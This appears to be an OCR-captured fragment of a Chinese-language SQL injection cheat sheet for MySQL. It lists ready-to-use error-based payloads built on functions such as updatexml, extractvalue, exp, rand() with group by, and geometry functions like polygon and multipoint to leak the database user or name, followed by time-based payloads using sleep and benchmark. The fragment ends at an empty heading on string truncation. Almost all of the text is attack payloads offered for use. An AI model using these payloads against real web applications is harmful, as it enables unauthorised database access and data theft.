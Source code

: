 #### exp

payload：`exp(~(select * from(select user())a))`

#### updatexml

payload：`updatexml(1,concat(0x7e,(select user()),0x7e),1)`

#### extractvalue

payload：`(extractvalue(1,concat(0x7e,(select user()),0x7e)))`

#### rand()+group()+count()

payload：`select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a`

#### GeometryCollection

payload：`GeometryCollection((select * from (select* from(select user())a)b))`

#### polygon

payload：`polygon((select * from(select * from(select user())a)b))`

#### multipoint

payload：`multipoint((select * from(select * from(select user())a)b))`

#### multilinestring

payload：`multilinestring((select * from(select * from(select user())a)b))`

#### linestring

payload：`LINESTRING((select * from(select * from(select user())a)b))`

#### multipolygon

payload：`multipolygon((select * from(select * from(select user())a)b))`

### 函数时延

#### sleep

payload:`select 1,3 and sleep(1)`

#### benchmark

 MySQL有一个内置的BENCHMARK()函数，可以测试某些特定操作的执行速度。 
参数可以是需要执行的次数和表达式。第一个参数是执行次数，第二个执行的表达式.

`benchmark(time,fun)`



### 字符串截取替代
